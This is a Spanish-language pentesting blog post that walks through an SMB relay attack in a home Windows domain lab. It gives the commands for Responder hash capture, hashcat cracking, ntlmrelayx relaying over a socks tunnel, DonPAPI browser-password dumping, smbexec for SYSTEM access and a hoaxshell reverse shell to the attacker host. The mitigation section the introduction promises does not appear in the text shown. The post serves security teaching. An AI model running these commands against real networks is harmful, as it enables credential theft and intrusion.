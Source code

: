 ```yaml
---
layout: single
title: Smb Relay
excerpt: "En este artículo me he montado un pequeño laboratorio con dos máquinas windows 11 unidas a un controlador de dominio con windows server 2022, para recrear una auditoría interna en la que empezamos con la captura de credenciales usando la herramienta responder, para luego hacer un reenvío de esas credenciales a la segunda máquina, obtener acceso a ésta, ver las credenciales guardadas en el navegador, hacer un volcado de memória del proceso lsass.exe y transferirlo a nuestro equipo, para ver las credenciales del administrador del dominio con pypykatz y conectarnos al servidor con evil-winrm. Además explicaré como se puede mitigar el smb relay a través de gpo en el controlador de dominio."
date: 2022-10-08
classes: wide
header:
  teaser: /assets/images/Smb-Relay/responder2.png
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Privilege Escalation
  - Pentesting
---
```


En este artículo me he montado un pequeño laboratorio con dos máquinas windows 11 unidas a un controlador de dominio con windows server 2022, para recrear una auditoría interna en la que empezamos con la captura de credenciales usando la herramienta responder, para luego hacer un reenvío de esas credenciales a la segunda máquina, obtener acceso a ésta, ver las credenciales guardadas en el navegador, hacer un volcado de memória del proceso lsass.exe y transferirlo a nuestro equipo, para ver las credenciales del administrador del dominio con pypykatz y conectarnos al servidor con evil-winrm. Además explicaré como se puede mitigar el smb relay a través de gpo en el controlador de dominio.

## Descripción del laboratorio

### Controlador de dominio
 - SO: Windows Server 2022 Standard
 - Nombre: DC1
 - IP: 192.168.0.100
 - Dominio: SIETEREINOS.LOCAL

 ![](/assets/images/Smb-Relay/DC1.PNG)


### Equipo 1
 - SO: Windows 11 Profesional
 - Nombre: PC01
 - IP: 192.168.0.202
 - Usuario: SIETEREINOS\Jon (Jon Nieve)

![](/assets/images/Smb-Relay/PC01.png)

### Equipo 2
 - SO: Windows 11 Profesional
 - Nombre: PC02
 - IP: 192.168.0.169
 - Usuario: SIETEREINOS\Arya (Arya Stark)

![](/assets/images/Smb-Relay/PC02.png)

### Máquina atacante
 - Linux debian con todas las herramientas necesarias instaladas (responder, ntlmrelayx, proxychains, DonPapi, hoaxshell, pypykatz y evil-winrm)

## Introducción

En entornos corporativos windows es muy común el uso de mecanismos de resolución de nombres basados en broadcast (LLMNR - Local Link Multicast Name Resolution, NBT-NS - NetBIOS Naming Services) y la activación por defecto de IPv6 en los servidores y estaciones de trabajo.

LLMNR y NBT-NS son mecanismos a los que el sistema operativo recurre de forma automática cuando a través de DNS no se obtiene ningún resultado. Es decir, que cada vez que se produce una petición de red por cualquier equipo, en la que el destino no existe se recurre a ellos, haciendo una petición broadcast a toda la red, y si la petición no va firmada, se confiará en cualquier respuesta que se reciba. Estas peticiones se producen muy a menudo por tareas de backup obsoletas, y otras tareas automatizadas que hacen peticiones a equipos que en ese momento estén apagados, por ejemplo, un servidor de actualizaciones que intenta actualizar un equipo que está apagado, un equipo que intenta conectar una unidad de red que ya no existe, o una impresora que ya no está compartida, por poner algunos ejemplos. Es en este punto cuando entra en juego la herramienta responder, que ante una petición de este tipo se va a hacer pasar por el recurso capturando las credenciales en formato hash netntlm, y si la contraseña es debil se podrá crackear fácilmente.

Además es posible hacer un reenvío de esas credenciales hacia otros equipos, y en el caso de que tengan privilegios sobre ese otro equipo podemos ganar acceso a ese segundo equipo. En este artículo veremos solo algunos ejemplos de como un atacante que ha logrado acceso a la red interna con, por ejemplo un phising o instalando un dispositivo físico para conectarse desde fuera, podría aprovecharse de ello.

## Captura de credenciales con Responder

Lo primero es enumerar los equipos que hay en la red y ver si tienen el smb firmado o si utilizan smb1 con crackmapexec (cme smb 192.168.0.0/24)

![](/assets/images/Smb-Relay/cme.png)

Vemos mucha información útil. El nombre de los equipos, el dominio, y también vemos que en el servidor el smb está firmado pero en los dos equipos restantes no. Y que ninguno de los 3 utiliza smb1.

Empezamos con la captura de credenciales con responder. Tan solo tenemos que poner en marcha el responder y esperar una petición a un recurso compartido que no exista.

El comando es responder -I enp3s0 -v (enp3s0 es mi interfaz de red, puede que la tuya sea otra)

![](/assets/images/Smb-Relay/responder.png)

Forzamos una petición a un recurso que no exista en la máquina PC01.

![](/assets/images/Smb-Relay/noexiste.png)

Y vemos como automáticamente el responder captura el hash de la autenticación.

![](/assets/images/Smb-Relay/hash.png)

Guardamos el hash en un fichero hash.txt y, si la contraseña es debil la podremos crackear fácilmente con hashcat.

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
![](/assets/images/Smb-Relay/hashcat.png)

Ya tenemos un usuario y una contraseña. Usuario sietereinos\jon contraseña P@ssw0rd!1

## Reenvío de credenciales a otra máquina con ntlmrelayx

Vamos a suponer un escenario en el que el usuario jon de la máquina PC01 tiene privilegios de administrador en la máquina PC02. Lo que haremos será un reenvío de las credenciales capturadas con la petición del PC01, para que nos devuelva todos los hashes ntlm (no netntlm que son los que captura el responder) del PC02, y realizar otras acciones como ver las contraseñas que tiene el usuario Arya del PC02 guardadas en el navegador y finalmente ganar acceso a la máquina.

Los hashes netntlm que captura el responder no sirven para hacer pass-the-hash, pero se pueden crackear como hemos visto anteriormente. Y los ntlm si sirven para hacer pass-the-hash.

Para hacer el smb relay o reenvío de credenciales necesitamos hacer unos cambios en el archivo responder.conf de la siguiente forma:

```bash
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf 
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf 
```
Se trata de cambiar tanto el SMB como el HTTP a Off.

Ahora ejecutamos el responder como antes (responder -I enp3s0 -v) y ntlmrelayx (ntlmrelayx -tf target.txt -of netntlm -smb2support). Antes tenemos que crear un archivo target.txt con la ip del equipo que recibirá ese reenvío de credenciales, en mi caso la ip 192.168.0.169. Podemos sacar una lista de los equipos con smb sin firmar con el siguiente comando (cme smb 192.168.0.0/24 --gen-relay-list targets.txt).

Hacemos otra petición a un recurso que no exista desde el PC01 y vemos como se produce el reenvío y nos devuelve todos los hashes ntlm de la máquina PC02.

![](/assets/images/Smb-Relay/relay.png)

El comportamiento por defecto de ntlmrelayx es mostrar los hashes ntlm, pero podemos hacer que haga un túnel socks, para poder ejecutar comandos a través de ese túnel en la máquina PC02, aprovechándonos de ese reenvío de credenciales.

Hacemos lo mismo que antes pero le pasamos al ntlmrelayx el parámetro -socks (ntlmrelayx -tf target.txt -of netntlm -smb2support -socks)

Y vemos como se establece el túnel, con el comando socks desde la consola que hemos ejecutado el ntlmrelayx.

![](/assets/images/Smb-Relay/socks.png)

Podríamos generar una lista con crackmapexec (cme smb 192.168.0.0/24 --gen-relay-list targets.txt) y simplemente esperar a que se produzca un reenvío a algún equipo y cuando en alguno ponga admin status TRUE, como en nuestro ejemplo, es que las credenciales capturadas tienen privilegios de administrador en la máquina que recibe el reenvío, y podemos dumpear los hashes ntlm o hacer las siguientes acciones que veremos a continuación. 

Ahora configuramos el proxychains.conf para que utilice el proxy local por el puerto 1080 y todos los comandos que ejecutemos utilizando proxychains se autenticarán en la máquina PC02 con las credenciales capturadas del PC01.

Así podemos ejecutar DonPAPI.py que es un script que se encarga de dumpear credenciales almacenadas. En el PC02 el usuario Arya tiene almacenada en el firefox la contraseña de la página web donde se guardan las copias de seguridad de la empresa, por comodidad. Vamos a ver como sea cual sea, en este caso da igual lo compleja que sea porque DonPAPI la leerá en texto claro.

Ejecutamos proxychains DonPAPI.py -no-pass 'SIETEREINOS'/'JON'@'192.168.0.169' y obtenemos las credenciales.

![](/assets/images/Smb-Relay/donpapi.png)

Ahora vamos a ganar acceso a la máquina PC02, de la siguiente forma. Ejecutamos proxychains smbexec.py -no-pass 'SIETEREINOS'/'JON'@'192.168.0.169' -debug -service-name test y directamente estamos dentro de la máquina PC02 con privilegios de system, los más elevados.

![](/assets/images/Smb-Relay/smbexec.png)

Pero esta consola es semi-interactiva, así que vamos a pasarnos a una consola totalmente interactiva de powershell con [hoaxshell](https://github.com/t3l3machus/hoaxshell) 

```bash
python3 hoaxshell.py -s 192.168.0.116 -H "Authorization"
```
Copiamos el comando que nos indica hoaxshell y lo ejecutamos en nuestra consola smbexec para obtener acceso con powershell.

![](/assets/images/Smb-Relay/hoaxshell.png)

![](/assets/images/Smb-Relay/cmd.png)

![](/assets/images/Smb-Relay/powershell.png)







